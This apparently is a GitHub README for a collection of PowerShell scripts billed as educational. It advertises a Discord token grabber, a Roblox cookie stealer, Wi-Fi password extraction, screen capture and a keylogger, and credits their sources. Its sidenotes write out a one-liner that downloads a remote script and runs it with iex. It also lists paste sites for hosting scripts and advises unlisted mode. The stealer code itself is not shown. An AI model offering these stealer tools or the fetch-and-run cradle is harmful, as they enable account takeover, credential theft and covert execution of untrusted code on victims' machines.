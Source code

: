 # powershell-scripts
An array of PowerShell scripts I wrote for educational purposes. Don't misuse these.

Some of these scripts are parts of code from other developers so I will credit them where I can

Includes
 - Uploading to Imgur in powershell
 - Grabbing Discord Tokens with Powershell
 - Getting stored wifi passwords with powershell
 - Screenshotting the users screen in powershell
 - Grabbing Roblox Cookies with powershell
 - A Powershell Keylogger

## Credit

Discord Webhooks in Powershell | [gngrninja](https://github.com/gngrninja/blog/blob/master/DiscordWebhook/embeds.ps1)

Discord Token Grabbing in Powershell | [F1sk](https://github.com/FiskDk/PowerShell-Discord-Token-Grabber)

Getting Images from Clipboard in Powershell | [thom schumacher](https://stackoverflow.com/questions/55215482/save-image-from-clipboard-using-powershell)

Keylogger Base | [dasgoll](https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277)

Uploading Images to Imgur in Powershell | [Deleted Reddit User](https://www.reddit.com/r/PowerShell/comments/2i0t6f/comment/ckzwori/?utm_source=share&utm_medium=web2x&context=3)

Note: All of these have been web archived.


## Helpful Powershell Sidenotes

```rundll32 url.dll,FileProtocolHandler 'url here'```

This opens a url in the default browser

```iex ((New-Object System.Net.WebClient).DownloadString('url here'))```

downloads a powershell script from a raw text hosting site 
[pastebin](https://pastebin.com/) use unlisted mode if your uploading a script with sensitive information included
[ghostbin](https://ghostbin.com/) seems to delete scripts occasionally
[rentry.co](https://rentry.co/)
[dpaste.com](https://dpaste.com/) looks good with expiry options
[hastebin](https://www.toptal.com/developers/hastebin/)
[paste-bin.xyz](https://paste-bin.xyz/)
[snippet.host](https://snippet.host/)
[dpaste.org](https://dpaste.org/)
[textbin.tk](https://textbin.tk/)
[textbin.pl](https://textbin.pl/)
